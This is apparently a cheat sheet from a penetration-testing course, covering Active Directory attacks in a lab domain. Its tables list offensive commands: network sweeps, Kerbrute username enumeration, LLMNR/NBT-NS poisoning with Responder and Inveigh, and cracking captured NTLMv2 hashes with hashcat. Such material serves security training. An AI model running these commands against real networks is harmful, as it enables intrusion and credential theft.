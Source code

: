 # Active Directory Enumeration & Attacks Cheat Sheet

## Initial Enumeration

### Commands

| Command | Description |
|---------|-------------|
| `nslookup ns1.inlanefreight.com` | Used to query the domain name system and discover the IP address to domain name mapping of the target from a Linux-based host. |
| `sudo tcpdump -i ens224` | Captures network packets on the specified network interface on a Linux-based host. |
| `sudo responder -I ens224 -A` | Responds to and analyzes LLMNR, NBT-NS, and MDNS queries in Passive Analysis mode on the specified interface. |
| `fping -asgq 172.16.5.0/23` | Performs a ping sweep on the specified network segment. |
| `sudo nmap -v -A -iL hosts.txt -oN /home/User/Documents/host-enum` | Performs an Nmap scan with OS detection, version detection, script scanning, and traceroute enabled using a list of hosts. Outputs results to a specified file. |

## Active Directory Enumeration

### Commands

| Command | Description |
|---------|-------------|
| `sudo git clone https://github.com/ropnop/kerbrute.git` | Clones the Kerbrute tool repository. |
| `make help` | Lists possible compiling options with the `make` command. |
| `sudo make all` | Compiles a Kerbrute binary for multiple OS platforms. |
| `./kerbrute_linux_amd64` | Tests the compiled Kerbrute binary. |
| `sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute` | Moves the Kerbrute binary to a directory in the Linux user’s PATH for easier access. |
| `./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results` | Discovers usernames in the specified domain and outputs results to a file. |

## LLMNR/NBT-NS Poisoning

### Commands

| Command | Description |
|---------|-------------|
| `responder -h` | Displays usage instructions for Responder. |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Cracks NTLMv2 hashes captured by Responder using a wordlist. |
| `Import-Module .\Inveigh.ps1` | Imports the Windows-based tool Inveigh.ps1. |
| `(Get-Command Invoke-Inveigh).Parameters` | Outputs options and functionalities available with Invoke-Inveigh. |
| `Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y` | Starts Inveigh with LLMNR & NBNS spoofing enabled, outputting results to a file. |
| `\Inveigh.exe` | Runs the C# implementation of Inveigh. |
| `Disable NetBIOS` | A PowerShell script used to disable NBT-NS on a Windows host. |
